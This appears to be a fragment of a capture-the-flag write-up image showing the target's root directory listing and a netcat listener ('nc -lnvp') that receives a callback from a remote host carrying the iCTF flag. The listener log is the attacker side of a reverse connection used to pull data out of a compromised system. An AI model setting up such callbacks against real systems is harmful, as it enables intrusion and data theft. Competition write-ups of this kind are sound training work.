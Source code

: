 ```
drwxr-xr-x   1 root root  4096 May 31 21:30 home
lrwxrwxrwx   1 root root     7 Feb 12 14:02 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb 12 14:02 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb 12 14:02 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb 12 14:02 libx32 -> usr/libx32
drwxr-xr-x   2 root root  4096 Feb 12 14:02 media
drwxr-xr-x   2 root root  4096 Feb 12 14:02 mnt
drwxr-xr-x   2 root root  4096 Feb 12 14:02 opt
dr-xr-xr-x 196 root root     0 Jul 21 08:15 proc
drwx------   2 root root  4096 Feb 12 14:06 root
drwxr-xr-x   5 root root  4096 Feb 12 14:06 run
lrwxrwxrwx   1 root root     8 Feb 12 14:02 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Feb 12 14:02 srv
dr-xr-xr-x  13 root root     0 Jul 21 08:15 sys
drwxrwxrwt   2 root root  4096 Feb 12 14:06 tmp
drwxr-xr-x  14 root root  4096 Feb 12 14:02 usr
drwxr-xr-x   1 root root  4096 Feb 12 14:06 var
```

```
$ nc -lnvp 32784
Listening on 0.0.0.0 32784
Connection received on 35.184.212.24 55432
ictf{we_love_random_2009_github_projects!}
```